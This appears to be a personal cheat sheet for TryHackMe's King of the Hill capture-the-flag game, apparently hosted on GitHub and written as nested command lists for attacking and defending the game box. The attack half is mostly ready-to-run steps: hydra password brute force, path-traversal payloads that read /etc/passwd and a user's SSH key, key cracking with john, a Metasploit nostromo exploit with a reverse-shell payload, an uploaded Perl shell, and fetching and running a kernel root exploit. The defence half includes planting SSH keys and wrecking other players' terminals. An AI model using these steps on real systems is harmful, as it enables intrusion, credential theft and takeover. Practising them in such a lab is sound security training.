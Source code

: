 
# King of The Hill

Attacking
- Ready
    - ssh-keygen -f "/home/$USER/.ssh/known_hosts" -R "target.ip"
    - mkdir ~/THM/<Room>
    - cd ~/THM/<Room>touch
    - ~/THM/<Room>/clue.txt
- Recon
- Port
    - sudo set.target.ip <x.x.x.x>
    - nmap.target.ip
        - 22
        - 80
        - 110
        - 143
        - 139/445
        - 1337
        - 3306
        - 5555
        - 8080
        - 9999
        - 24964
- Scan
    - 22/tcp  open  ssh        syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    - 80/tcp    open  http       syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
        - /robots.txt
        - /sitemap.xml
        - view-source
        - gobuster
            - /upload
            - Insecure File Upload Perl shell
        - nikto -h target.ip
        - wpscan
        - hydra
        - Burp Suite
    - 1337/tcp  open  ssh        syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
    - 3306/tcp  open  mysql      syn-ack ttl 61 MySQL 5.7.19-0ubuntu0.16.04.1
        - hydra -l root -P /usr/share/wordlists/rockyou.txt target.ip mysql
    - 5555/tcp  open  http       syn-ack ttl 61 nginx 1.10.3 (Ubuntu)
        - The page variable is the one defining on which page we are /?page=posts.php
            - http://MACHINE_IP:5555/?page=../../../etc/passwd
        - Since this is “Gloria’s blog”, we can expect there is a user named gloria in the machine 
            - http://MACHINE_IP:5555/?page=../../../home/gloria/.ssh/id_rsa
            - save it to id_rsa
            - chmod 400 id_rsa
    - 8080/tcp  open  http       syn-ack ttl 61 nostromo 1.9.6
        - This version is outdated and has a Remote Code Execution vulnerability. 
            - searchsploit (searchsploit nostromo 1.9.6)
    - 9999/tcp  open  abyss?     syn-ack ttl 61
    - 24964/tcp open  tcpwrapped syn-ack ttl 61
- Shell
    - ssh
        - ssh2john id_rsa > john
        - extract passphrase
            - john -w=/usr/share/wordlists/rockyou.txt john
        - ssh -i id_rsa -t gloria@MACHINE_IP -p 1337
    - msfconsole
        - use exploit/multi/http/nostromo_code_exec
        - set rport 8080
        - set rhost target.ip
        - check
        - set payload linux/x86/meterpreter/reverse_tcp
        - set lhost tun0
        - run
    - reverse shell
        - Upload "Perl shell" /upload
        - Stablish by using Python’s Pty module
            - python3 -c 'import pty;pty.spawn("/bin/bash");'
            - export TERM=xterm
- Root   
    - Privilege Escalation
        - looking for root permissions
            - find / -type f \( -perm -4000 -o -perm -2000 \) -print 2>/dev/null
        - linpeas.sh
            - /usr/bin/tmux -S /.dev/session
        - kernel exploit (CVE-2017-16995)
            - wget https://raw.githubusercontent.com/gugronnier/CVE-2017-16995/master/exploit-poc-pentest.c
            - gcc --static exploit-poc-pentest.c -o exploit-poc-pentest
            - Send it to the machine
            - chmod +x ./exploit-poc-pentest
            - ./exploit-poc-pentest
    - Become King
        - whoami
        - echo "USERNAME" > /root/king.txt
            - permission denied
                - chattr -ia /root/king.txt
            - chattr removed
                - https://busybox.net/downloads/binaries/1.31.0-i686-uclibc/
    - Flags
        - /home/gloria/user.txt 	 
        - /home/marty/user.txt 	Reversed
        - /home/alex/user.txt 	Rot13
        - /root/.flag 	 
        - /opt/code/server.py 	 
        - MySQL: db-> blog, table-> users, id-> 140
Defending
- King
    - chattr +ia /root/king.txt
    - Remove chattr
        - which chattr # Get chattr's path, default: /usr/bin/chattr
        - rm usr/bin/chattr # Or another path if different
    - clobber
        - set -o noclobber
        - add this to bashrc of root and source it
- Patching
    - Nostromo RCE Patch, port 8080
        - update it
        - putting Nostromo down and running a Python http.server
            - /var/nostromo/htdocs
            - ps aux | grep nhttpd
            - kill -9 <PID>
            - cd /var/nostromo/htdocs
            - python3 -m http.server -b target.ip 8080
    - LFI Patch, port 5555 
        - removing every ../ from the page variable
            - <?php include($_GET["page"]); ?> To <?php include(str_replace("../","",$_GET["page"])); ?>
    - Insecure File Upload Patch
        - quickest patch we can issue is to remove or comment line. exec("/usr/bin/perl " . $target_file);
    - OS
        - sudo
            - fixing the vulnerability in /etc/sudoers
                - remove everything from /etc/sudoers except root ALL=(ALL=ALL) ALL
        - changing ssh keys, changing passwords, look for the processes running or give cronjobs a look
        - Make copies of SUID binaries, even though they are easy to find, but can sometimes save get you a root shell from www-data.
        - SSH AuthKey
            - put your ssh keys on to the user/root authorized_keys
            - rename the public key to : authorized_keys     
- Backdoors
- Aggressive Defense
    - Get your pts number
        - /dev/pts/x
        - w
        - who
        - tty
        - echo $$
        - ps aux | grep pts
    - Find every other pts
        - ps aux | grep pts
    - Kick other players’ shells
        - kill -9 <PID>
        - pkill -9 -t pts/<OTHER_PTS_ID>
    - Breaking other players’ pts
        - echo "Hello 1337" > /dev/pts/<OTHER_PTS_ID>
        - cat /dev/urandom > /dev/pts/<OTHER_PTS_ID>
        - nyancat > /dev/pts/<OTHER_PTS_ID>
            - git clone https://github.com/klange/nyancat
            - cd nyancat/src
            - make
            - Sending Nyancat to machine
        - tetris
    - Break into the shell of other logged in users
        - script -f /dev/pts/<OTHER_PTS_ID>


https://blog.noxtal.com/writeups/2020/07/11/tryhackme-koth-lion/
https://blog.noxtal.com/cheatsheets/2020/08/08/ultimate-koth-defense-guide/
https://github.com/calebstewart/pwncat
https://gtfobins.github.io/
